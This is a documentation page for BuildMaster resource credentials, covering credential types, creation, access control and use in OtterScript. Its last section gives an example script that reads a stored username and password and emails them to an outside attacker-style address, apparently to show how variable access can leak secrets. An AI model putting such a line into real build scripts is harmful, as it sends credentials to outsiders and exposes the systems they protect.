 ```yaml
---
title: Resource Credentials
keywords: buildmaster, executions, resource-credentials
show-headings-in-nav: true
sequence: 200
---
```


Resource credentials store information that is used to provide access to a particular resource (such as a name and password to a specific service), and may contain secrets (i.e. encrypted fields that are visible only to privileged users, like passwords or API keys).

There are a few types that are built in to BuildMaster:

|Type|	Properties	|Description|
|-|-|-|
|UsernamePassword	|UserName Password|	A general-purpose credential with a username and password, such as a Windows domain account. Several operations can use this to request a basic username/password. |
|PrivateKey	| UserName PublicKey PrivateKey* Passphrase*	| This is primarily used by the SSH-based agent when key-based authentication is used. |
|InedoProduct	| Host ApiKey* |	Represents a connection to instance of another Inedo product (BuildMaster, ProGet, or Otter) |

**\*** *indicates an encrypted/sensitive field*

Resource credentials are implemented through an [extensible feature](/support/documentation/buildmaster/administration/extensions), and several extensions ([JIRA](/den/buildmaster/jira),[VSTS](/den/inedox/tfs), [GitHub](/den/inedox/github), etc.) will add types that are necessary for the extension's components.

## Creating and Editing Credentials {#creating-editing-credentials data-title="Creating and Editing Credentials"}

You can create a resource credential from the Resource Credentials link on the Administration page. In addition to the fields specific to the resource credential type, all resource credentials have:

*   **Name** - a name of up to 50 characters that will be used to reference the resource credential; while you can change the name later, any operation or component that relied on that name will no longer be able to find it
*   **Environment** - optional; restricts what environments the credential may be used in, and which users have access to it
*   **Variable Usage** - optional; you can allow the `$CredentialProperty` variable function to extract secure properties
*   **Environment Restriction** - optional; when set, a runtime error will occur when this credential is used in a deployment plan that is not running in the same environment

When editing credentials, the encrypted fields will be displayed as empty password textboxes, and entering a value in the textbox will change it. You may click the "view hidden fields" button to show these values if you have the appropriate permissions.

## Limiting Credential Access {#limiting-access data-title="Limiting Credential Access"}

You may want to permit or restrict certain users from accessing certain credentials, such as allowing Developers to manage credentials in the Integration and Testing environments. This is done by associating credentials with an environment, and then creating the appropriate [access controls](/support/documentation/buildmaster/administration/users-and-security) scoped to that environment.

There are two task attributes you can use to control this access:

*   **Manage Credentials** will allow you to view, delete, and edit credentials, but not view existing encrypted/sensitive fields
*   **View Passwords** will allow you to view encrypted/sensitive fields on a credential

On the manage credentials page, users will only see the credentials they have permission to manage, and will only be able to create credentials in permitted environments.

## Credentials and OtterScript {#credentials-and-otterscript data-title="Credentials and OtterScript"}

Any operation that uses passwords, API keys, or sensitive information will give you the option to use a resource credential instead of needing to put those values directly in your OtterScript.

For example, consider the [`Ensure-AppPool`](/support/documentation/buildmaster/reference/operations/iis/ensure-app-pool) operation:

![Ensure apppool operation](/resources/documentation/buildmaster/6/ensure-app-pool.png)

If you select a resource credential for the operation's, the OtterScript runtime will automatically set the value of the operations User Name and Password properties from the selected credential. If you specify a value for either of those properties, they will be used instead of the credential's value.

::: {.attention .technical}
If the credential has "restricted to environment use" configured, then this will only be permitted if the deployment plan is running in the same environment. This can be frustrating and unintuitive to your users, so be careful when using it.
:::

## Credentials as Variables {#credentials-as-variables data-title="Credentials as Variables"}

By default, there is no way to access the value of an encrypted/sensitive field on a credential from within OtterScript. However, at times it may be necessary, such as if you want to pass a username/password to a script or command-line utility.

You can enable variable usage on a credential-by-credential basis. When configured, you can use the [$CredentialProperty](/support/documentation/buildmaster/reference/functions/credentials/credentialproperty) variable function to extract any property value. For example:

```
set $HDarsUser = $CredentialProperty(UsernamePassword::HDarsUser, UserName);
set $HDarsPassword = $CredentialProperty(UsernamePassword::HDarsUser, Password);
PSExec >> Register-HDars $HdarsUser $HdarsPassword >>;        

Send-Email
(
    To: hacker45@agam.ru,
    Subject: Username is $HdarsUser and password is $HdarsPassword
); >>;
```

Instead, you should write a custom operation that can securely handle the credentials.